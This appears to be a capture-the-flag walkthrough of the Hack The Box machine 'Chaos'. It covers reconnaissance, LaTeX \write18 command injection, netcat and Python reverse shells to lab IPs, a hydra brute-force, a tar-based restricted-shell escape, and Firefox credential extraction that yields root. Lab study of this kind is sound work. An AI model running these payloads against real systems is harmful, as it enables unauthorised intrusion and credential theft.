


WebPage

chaos is a web-app and video game pentesting company. Theres a tribute page to members/mods in the hall of fame dir. blog is still underdevelopment hmmm....i believe the contact page is the way to get in. 

email = info@chaos.htb

NMAP

not sure what 10000 really is most likely related 

```
nmap -sC -sV -oA nmap/initial chaos.htb -T4
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 09:30 EST                                                                                      Nmap scan report for chaos.htb (10.10.10.120)
Host is up (0.046s latency).         
Not shown: 994 closed ports          
PORT      STATE SERVICE  VERSION       
80/tcp    open  http     Apache httpd 2.4.34 ((Ubuntu))
|_http-server-header: Apache/2.4.34 (Ubuntu)      
|_http-title: Chaos                            
110/tcp   open  pop3     Dovecot pop3d                                                                                                              
|_pop3-capabilities: STLS TOP UIDL AUTH-RESP-CODE RESP-CODES PIPELINING SASL CAPA
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos  
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49           
|_ssl-date: TLS randomness does not represent time
143/tcp   open  imap     Dovecot imapd (Ubuntu)                                                                                                     
|_imap-capabilities: ID more LITERAL+ STARTTLS OK listed post-login Pre-login IMAP4rev1 capabilities LOGIN-REFERRALS IDLE ENABLE have LOGINDISABLEDA0
001 SASL-IR                          
| ssl-cert: Subject: commonName=chaos  
| Subject Alternative Name: DNS:chaos  
| Not valid before: 2018-10-28T10:01:49           
|_Not valid after:  2028-10-25T10:01:49               
|_ssl-date: TLS randomness does not represent time                      
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)    
|_imap-capabilities: ID AUTH=PLAINA0001 more OK listed post-login Pre-login IMAP4rev1 LITERAL+ LOGIN-REFERRALS IDLE capabilities have ENABLE SASL-IR
| ssl-cert: Subject: commonName=chaos                                                                                                               
| Subject Alternative Name: DNS:chaos                       
| Not valid before: 2018-10-28T10:01:49 
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
995/tcp   open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP UIDL AUTH-RESP-CODE RESP-CODES PIPELINING CAPA USER
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
10000/tcp open  http     MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
nmap -p- -oA nmap/total-chaos chaos.htb -T4
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 09:41 EST
Nmap scan report for chaos.htb (10.10.10.120)
Host is up (0.055s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE
80/tcp    open  http
110/tcp   open  pop3
143/tcp   open  imap
993/tcp   open  imaps
995/tcp   open  pop3s
10000/tcp open  snet-sensor-mgmt
```

```
nmap -sU -T4 udp-chaos chaos.htb 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 11:22 EST
Failed to resolve "udp-chaos".
Warning: 10.10.10.120 giving up on port because retransmission cap hit (6).
Nmap scan report for chaos.htb (10.10.10.120)
Host is up (0.040s latency).
Not shown: 964 closed ports, 35 open|filtered ports
PORT      STATE SERVICE
10000/udp open  ndmp
```

## GOBUSTER

http://10.10.10.120

```

/wp (Status: 301)
	/wordpress
		/index.php (Status: 301)
		/wp-content (Status: 301)
		/wp-login.php (Status: 200)
		/wp-includes (Status: 301)
		/wp-trackback.php (Status: 200)
		/wp-admin (Status: 301)
		/wp-signup.php (Status: 302)
/javascript (Status: 301)

```

http://chaos.htb

```
/index.html (Status: 200)
/contact.html (Status: 200)
/about.html (Status: 200)
/blog.html (Status: 200)
/img (Status: 301)
/css (Status: 301)
/source (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/hof.html (Status: 200)
```

https://chaos.htb:10000

I avoided https when running gobuster.

```

```

## wfuzz

SUBDOMAINS

```
wfuzz -c -f sub-chaos -w /home/htb/wordlist/seclist/Discovery/DNS/subdomains-top1mil-5000.txt -u "http://FUZZ.chaos.htb:10000" -t 42
-f filename,printer       : Store results in the output file using the specified printer (raw printer if omitted).
-H "Host: FUZZ.10.10.10.120"
```

```
wfuzz -c -f sub-chaos -w /home/htb/wordlist/seclist/Dis
covery/DNS/subdomains-top1mil-5000.txt -u "http://10.10.10.120" -H "Host: FUZZ.10.10.10.120"
-t 42 --hc 400
i also fuzzed /wp/wordpress
```

```
wfuzz -c -f sub-chaos -w /home/htb/wordlist/seclist/Discovery/DNS/subdomains-top1mil-5000.txt -u "http://FUZZ.chaos.htb:10000" -t 42                     
```

Mild success

```
wfuzz -c -f sub-chaos -w /home/htb/wordlist/seclist/Di$
covery/DNS/subdomains-top1mil-5000.txt -u "http://chaos.htb/wp/wordpress" -H "Host: FUZZ.cha$
s.htb" -t 42 --hc 400       

000003:  C=301      9 L       28 W          333 Ch        "localhost"
000004:  C=403     11 L       32 W          304 Ch        "webmail"
000005:  C=301      9 L       28 W          323 Ch        "smtp"
```

Sucess

```
wfuzz -c -f sub-chaos -w /home/htb/wordlist/seclist/Discovery/DNS/subdomains-top1mil-5000.txt -u "http://chaos.htb" -H "Host: FUZZ.chaos.htb" -t 42 --hl 1   

000004:  C=200    120 L      386 W         5607 Ch        "webmail"
```


## Roundcube

you are the password ayush address the person as sahay perhaps its the full username sahay@chaos.htb 

sahay is a sir name for south asians it would appear. so well assume there no bias towards to the firstname. 

```
Creds
user:	ayush	 pass:	jiujitsu

Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush
```


Decrypting the file


```
#python script.py password file
def encrypt(key, filename):
    chunksize = 64*1024
    outputFile = "en" + filename
    filesize = str(os.path.getsize(filename)).zfill(16)
    IV =Random.new().read(16)

    encryptor = AES.new(key, AES.MODE_CBC, IV)

    with open(filename, 'rb') as infile:
        with open(outputFile, 'wb') as outfile:
            outfile.write(filesize.encode('utf-8'))
            outfile.write(IV)

            while True:
                chunk = infile.read(chunksize)

                if len(chunk) == 0:
                    break
                elif len(chunk) % 16 != 0:
                    chunk += b' ' * (16 - (len(chunk) % 16))

                outfile.write(encryptor.encrypt(chunk))

def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()

```

```
for c in name.txt
	print python en.py $c enim_msg.txt
```

https://github.com/argosk/encrypt-Python

used this script to decode the message funny enough ibeleive this might be the same script the author used to create the ctf.

### Searchsploit

```
chaos null
```

Investigating port 10000

HYDRA

```
hydra chaos.htb -s 10000 -l admin -P /opt/htb/wordlist/rockyou.txt https-form-post "/session_login.cgi:user=^USER^&pass=^PASS^&save=1:Warming!" -f -v -t 30

```

There is a waf inplace on port 10k procting agaqinst bruteforcing ugh. 


```
openssl s_client -connect chaos.htb:110 -starttls pop3
openssl s_client -connect chaos.htb:995
```

After editing /etc/hosts


commented out the change to /etc/hosts. wordpress website.


password to the webdirectory is human not sure where i found the hint. 

username – ayush

password – jiujitsu

my initial thought these might be credentials for one of the logins on one o fthe webpages. but its for the email servers.


Found this message.


Checking the user registration page it is DISABLED.


hopefully the final webpage i think one of the underlining messages for this box is all t he places you can find shit on a webpage lol. After cracking the file it gave me a web url that nobody could ever guess or fuzz for. 

template number 3 

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/




Gobuster

pdf directory is where the created pdf files go. i check with dump and it would appear i can't control the extension. doc is the template directory. The asset directory might have something in the js directory perhaps what makes the pdf app.js. Source is equally interesting. the pdf directory contains inicially a bunch of files and those files are encoded in base64 they references they referenced tee adjustbox-2.log

```
 gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/      

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2019/02/08 01:05:28 Starting gobuster
=====================================================
/templates (Status: 301)
/pdf (Status: 301)
/doc (Status: 301)
/assets (Status: 301)
/source (Status: 301)
/tex (Status: 301)
/compile (Status: 301)

```

```
\include{password}
\input{/etc/passwd}

```


it doesn't block it when its encoded but at the same time it doesn't decode it.


This will run a system cmd then pipe the output to base64 and encode it to meow.txt. Creating a bash script with rm nc reserveshell didn't yieeld results. Ill try php 



```
\immediate\write18{echo "rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.14+9080+>/tmp/f" < meow.sh|base64 < meow.sh}
```

# python reverse shell -- success

```
content=\immediate\write18{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.159",9080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > chickenp.sh|base64 > chickenp.sh}

\newread\file

\openin\file=chickenp.sh

\loop\unless\ifeof\file

\read\file to\fileline

\text{\fileline}

\repeat

\closein\file

Run1

&template=test3
```


LinEnum

```
[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.10
DISTRIB_CODENAME=cosmic
DISTRIB_DESCRIPTION="Ubuntu 18.10"
NAME="Ubuntu"
VERSION="18.10 (Cosmic Cuttlefish)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.10"
VERSION_ID="18.10"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=cosmic
UBUNTU_CODENAME=cosmic

```

Su ayush

username – ayush

password – jiujitsu

EXPORT

export -p to view the shell resitrictions this shows all the read only. declare -rx PATH="/home/ayush/.app" declare -rx SHELL="/opt/rbash"

```
export -p
declare -x APACHE_LOCK_DIR="/var/lock/apache2"
declare -x APACHE_LOG_DIR="/var/log/apache2"
declare -x APACHE_PID_FILE="/var/run/apache2/apache2.pid"
declare -x APACHE_RUN_DIR="/var/run/apache2"
declare -x APACHE_RUN_GROUP="www-data"
declare -x APACHE_RUN_USER="www-data"
declare -x HOME="/home/ayush"
declare -x INVOCATION_ID="df9e05d0804e4d1da0747f6120c01317"
declare -x JOURNAL_STREAM="9:19877"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="ayush"
declare -x MAIL="/var/mail/ayush"
declare -x OLDPWD="/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile"
declare -rx PATH="/home/ayush/.app"
declare -x PWD="/home"
declare -x SELFAUTODIR="/usr"
declare -x SELFAUTOGRANDPARENT="/"
declare -x SELFAUTOLOC="/usr/bin"
declare -x SELFAUTOPARENT="/"
declare -rx SHELL="/opt/rbash"
declare -x SHLVL="2"
declare -x USER="ayush"
declare -x XDG_RUNTIME_DIR="/run/user/1001"
declare -x XDG_SESSION_ID="c4"
declare -x engine="pdftex"
declare -x progname="pdflatex"

```

```
export SHELL="/bin/bash"
export SHELL="/bin/bash"
rbash: SHELL: readonly variable
export USER="WWW-DATA" =fail

echo $PATH returns /home/ayush/.app

echo os.system("/bin/bash")
echo os.system"/bin/bash"

python -c "import os; os.system('cp');"

cannot redirect output
cd is restricted
can't use /
tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
access to tar

tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
/bin/ls
/bin/cat


```

ESCAPE FROM AYUSH JAIL

Escaping from this jail was pretty tough because none of the basic techiquies worked for me. 
Able to use the tar wild card method to generate a shell. i believe this is a easter egg to tartarsauce.

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

BEYOND THE ESCAPE

upgrading tty to something easier to use, 

```
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```

next step transfer off mail

```
/usr/bin/python -m SimpleHTTPServer 9030
/usr/bin/wget http://10.10.14.14:9030/LinEnum.sh  
```


```
inside mail directory i felt
/bin/ls -la
/bin/ls -la
total 20
drwx------ 3 ayush ayush 4096 Oct 28 12:17 .
drwx------ 6 ayush ayush 4096 Feb 11 03:37 ..
-rw------- 1 ayush ayush 2638 Oct 28 12:16 Drafts
drwx------ 5 ayush ayush 4096 Oct 28 12:13 .imap
-rw------- 1 ayush ayush    0 Oct 28 12:10 Sent
-rw------- 1 ayush ayush   17 Oct 28 12:13 .subscriptions
```

```
/bin/ls -la
total 32
drwx------ 5 ayush ayush 4096 Oct 28 12:13 .
drwx------ 3 ayush ayush 4096 Oct 28 12:17 ..
-rw------- 1 ayush ayush 4028 Oct 28 12:16 dovecot.list.index.log
-rw------- 1 ayush ayush   48 Oct 28 12:13 dovecot.mailbox.log
-rw------- 1 ayush ayush    8 Oct 28 12:13 dovecot-uidvalidity
-r--r--r-- 1 ayush ayush    0 Oct 28 12:10 dovecot-uidvalidity.5bd5a723
drwx------ 2 ayush ayush 4096 Oct 28 12:13 Drafts
drwx------ 2 ayush ayush 4096 Oct 28 12:10 INBOX
drwx------ 2 ayush ayush 4096 Oct 28 12:10 Sent
```

Find Suin perms

```
/usr/bin/find / -user root -perm -4000 -print 2>/dev/null

/ -user root -perm -4000 -print 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/gpasswd
/bin/ntfs-3g
/bin/su
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
```

```
/usr/bin/sudo -l
[sudo] password for ayush: jiujitsu

Sorry, user ayush may not run sudo on chaos.
```

not sure why i didn't check the default directory fully first.

```
/bin/ls -la
total 40
drwx------ 6 ayush ayush 4096 Feb 11 21:46 .
drwxr-xr-x 4 root  root  4096 Oct 28 11:34 ..
drwxr-xr-x 2 root  root  4096 Oct 28 12:25 .app
-rw------- 1 root  root     0 Nov 24 23:57 .bash_history
-rw-r--r-- 1 ayush ayush  220 Oct 28 11:34 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28 12:27 .bashrc
drwx------ 3 ayush ayush 4096 Feb 11 03:37 .gnupg
drwx------ 3 ayush ayush 4096 Oct 28 12:17 mail
drwx------ 4 ayush ayush 4096 Sep 29 12:09 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28 11:34 .profile
-rw------- 1 ayush ayush   33 Oct 28 12:54 user.txt
```

.APP

```
lrwxrwxrwx 1 root  root     8 Oct 28 12:25 dir -> /bin/dir
		/bin/dir -a
			.  ..  ayush  sahay

lrwxrwxrwx 1 root  root     9 Oct 28 12:25 ping -> /bin/ping
lrwxrwxrwx 1 root  root     8 Oct 28 12:25 tar -> /bin/tar
```

FIREFOX

```
drwx------ 2 ayush ayush 4096 Sep 29 12:09 extensions
drwx------ 4 ayush ayush 4096 Sep 29 12:09 firefox
```

```
drwx------ 10 ayush ayush   4096 Feb 12 02:25  bzo7sjt1.default
drwx------  4 ayush ayush   4096 Oct 15 03:59 'Crash Reports'
-rw-r--r--  1 ayush ayush    104 Sep 29 12:09  profiles.ini
-rw-rw-r--  1 ayush ayush 716752 Feb 12 03:16  user.zip
```

Root

I used zip to compress the mozilla profile and used a github decryptor to get the login creds. transfering bzo7sjt1.default to my system was tricky and compressing it.by default i went to tar but i was getting some kind of error where tar was truncating itsself. there are ways to force / bypass. Zip came to the rescue.

https://github.com/unode/firefox_decrypt

```
/usr/bin/zip user.zip bzo7sjt1.default/* 
/usr/bin/python -m SimpleHTTPServer 9017
```

```
python firefox_decrypt/firefox_decrypt.py bzo7sjt1.default/
2019-02-11 22:28:36,944 - WARNING - profile.ini not found in bzo7sjt1.default/ 
2019-02-11 22:28:36,944 - WARNING - Continuing and assuming 'bzo7sjt1.default/'
is a profile location

Master Password for profile bzo7sjt1.default/:

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'

```

So log back in and su root and enter the password.

